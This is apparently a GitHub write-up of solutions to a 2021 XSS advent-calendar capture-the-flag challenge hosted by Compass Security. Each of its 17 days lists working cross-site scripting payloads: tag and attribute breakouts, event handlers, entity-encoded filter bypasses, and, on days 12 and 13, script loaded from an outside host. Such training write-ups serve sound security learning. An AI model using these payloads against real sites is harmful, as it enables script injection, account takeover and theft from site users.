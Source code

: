 # Merry XmaSS – XSS advent calendar 2021

Find the challenge hosted by [Compass Security](https://www.compass-security.com/de/) here: https://xmass.compass-demo.com/

Use your XSS skills to pop up *alert(1)* windows on every day.

Helpful resources and tools:

* En-/Decoding: https://gchq.github.io/CyberChef/

---

**SPOILER ALERT!** Stop reading here, if you want to solve the challenges yourself.

---

These are some solutions I was able to find, I am sure there are many more. Tested with Firefox Version 95.0 (64-bit) on Windows.

**+++ Day 1 +++**  
https://xmass.compass-demo.com/level1
```
<script>alert(1)</script>
```
**+++ Day 2 +++**  
https://xmass.compass-demo.com/level2
```
a"><script>alert(1)</script
```
alternative solution (*user interaction required*)
```
a" onfocus="alert(1)"
```
**+++ Day 3 +++**  
https://xmass.compass-demo.com/level3
```
"><script>alert(1)</script>
```
**+++ Day 4 +++**  
https://xmass.compass-demo.com/level4
```
a";alert(1);"
```
**+++ Day 5 +++**  
https://xmass.compass-demo.com/level5
```
a</textarea><script>alert(1)</script>
```
**+++ Day 6 +++**  
https://xmass.compass-demo.com/level6
```
<img src="#" onerror="alert(1)"/>
```
**+++ Day 7 +++**  
https://xmass.compass-demo.com/level7 *(use URL below to get the alert window)*
```
https://xmass.compass-demo.com/level7?inject=<script>alert(1)</script>
```
**+++ Day 8 +++**  
https://xmass.compass-demo.com/level8
```
" autofocus onfocus="alert(1)
```
alternativ solution *(mouse cursor has to be in the 'conent area' of the browser)*
```
" onmouseover="alert(1)" style="display: block; position: fixed; top: 0; left: 0; z-index: 99999; width: 9999px; height: 9999px; (mouse cursor musst be on content area of browser window)
```
**+++ Day 9 +++**  
https://xmass.compass-demo.com/level9 *(yes, worked on Day 6 already)*
```
<img src="#" onerror="alert(1)"/>
```
**+++ Day 10 +++**  
https://xmass.compass-demo.com/level10
```
<body onpageshow=alert(1)>
```
**+++ Day 11 +++**  
https://xmass.compass-demo.com/level11
```
<img src="#" Onerror="alert(1)"/>
```
**+++ Day 12 +++**  
https://xmass.compass-demo.com/level12
```
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```
alternatively one character reference is enough
```
<img src="x" onerror="&#97;lert(1)">
```
alternative solution (no `alert(1)` but the script executes)
```
<script src="https://xss.rocks/xss.js"></script>
```
**+++ Day 13 +++**  
https://xmass.compass-demo.com/level13
```
<script src="&#104;&#116;&#116;&#112;&#115;&colon;&sol;&sol;&#120;&#115;&#115;&period;&#114;&#111;&#99;&#107;&#115;&sol;&#120;&#115;&#115;&period;&#106;&#115;"></script>
```
alternatively one character reference is enough
```
<script src="h&#116;tps://xss.rocks/xss.js"></script>
```
**+++ Day 14 +++**  
https://xmass.compass-demo.com/level14
```
\";alert(1);//
```
**+++ Day 15 +++**  
https://xmass.compass-demo.com/level15
```
";document.write('\x3Cscript\x3Eal'+'ert(1)\x3C/script\x3E');//
```
**+++ Day 16 +++**
https://xmass.compass-demo.com/level16
```
<script>alert`1`</script>
```
**+++ Day 17 +++**
https://xmass.compass-demo.com/level17
```
" onerror="alert(1)"
```

